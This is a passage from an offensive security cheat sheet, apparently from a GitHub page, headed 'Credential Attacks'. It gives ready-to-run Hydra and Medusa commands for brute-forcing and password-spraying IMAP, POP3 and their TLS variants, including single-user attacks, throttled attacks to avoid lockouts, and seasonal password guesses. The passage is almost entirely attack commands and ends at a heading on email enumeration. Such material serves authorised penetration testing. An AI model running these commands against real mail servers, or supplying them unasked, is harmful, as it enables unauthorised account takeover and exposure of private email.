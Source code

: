 
## Credential Attacks

### Brute Force Attacks

#### Hydra
```bash
# IMAP brute force
hydra -L users.txt -P passwords.txt imap://target

# POP3 brute force  
hydra -L users.txt -P passwords.txt pop3://target

# IMAPS/POP3S brute force
hydra -L users.txt -P passwords.txt imaps://target
hydra -L users.txt -P passwords.txt pop3s://target

# Single user, multiple passwords
hydra -l admin -P passwords.txt imap://target

# Throttled attack (slower)
hydra -L users.txt -P passwords.txt -t 1 -W 3 imap://target
```

#### Medusa
```bash
# IMAP brute force
medusa -h target -U users.txt -P passwords.txt -M imap

# POP3 brute force
medusa -h target -U users.txt -P passwords.txt -M pop3

# Single user attack
medusa -h target -u admin -P passwords.txt -M imap
```

### Password Spraying
```bash
# Test common passwords against user list
hydra -L users.txt -p 'Password123' imap://target
hydra -L users.txt -p 'password' imap://target
hydra -L users.txt -p 'admin' imap://target

# Seasonal passwords
hydra -L users.txt -p 'Summer2024!' imap://target
```

---

## Email Enumeration & Extraction
